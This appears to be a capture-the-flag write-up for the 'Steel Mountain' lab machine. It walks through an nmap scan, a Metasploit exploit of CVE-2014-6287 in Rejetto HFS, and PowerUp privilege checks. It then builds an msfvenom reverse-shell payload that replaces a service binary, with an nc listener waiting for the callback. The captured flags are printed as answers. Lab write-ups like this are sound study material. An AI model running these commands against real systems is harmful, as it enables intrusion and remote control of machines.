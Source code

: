 We start the Steel Mountain machine with an nmap scan to look for open ports
```
nmap -sV -sC -vv -T4 10.10.139.92 -p-
```
We open the web page and answer the first question with ```Bill Harper``` .

We answer the next question which wants us to know the other port that the server is running on which is port ```8080```
It then asks us the name of the web server which is ```Rejetto Http File Server```.

We will be using ```CVE-2014-6287``` to exploit the webserver.

We start up Metasploit:

```
msfconsole

search CVE-2014-6287

show options

set RHOST 10.10.16.55

set RPORT 8080

set LHOST 10.12.18.176

set SRVHOST 10.12.18.176

exploit
```

We gain initial access and get the user flag ```��b04763b6fcf51fcd7c13abc7db4fd365```.

For priv escalation we start by downloading the PowerUp script and uploading it with metasploit:
```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

# in metasploit
upload PowerUp.ps1
```
We then switch to a powershell shell in metasploit ```load powershell``` and then ```powershell_shell```.

Running the PowerUp script ```. .\PowerUp.ps1``` and ```Invoke-AllChecks```.

To get the root flag we stop the service to exploit and then creat a msfvenom payload.
```sc stop AdvancedSystemCareService9```
```msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe```

We exit out of the powershell session and upload the exploit then copy the exploit and replace the vulnerable file:
```
copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

# start listener on attack machine
nc -nlvp 4443

sc start AdvancedSystemCareService9
```
root flag: ```9af5f314f57607c00fd09803a587db80```

System has been rooted action no longer required.



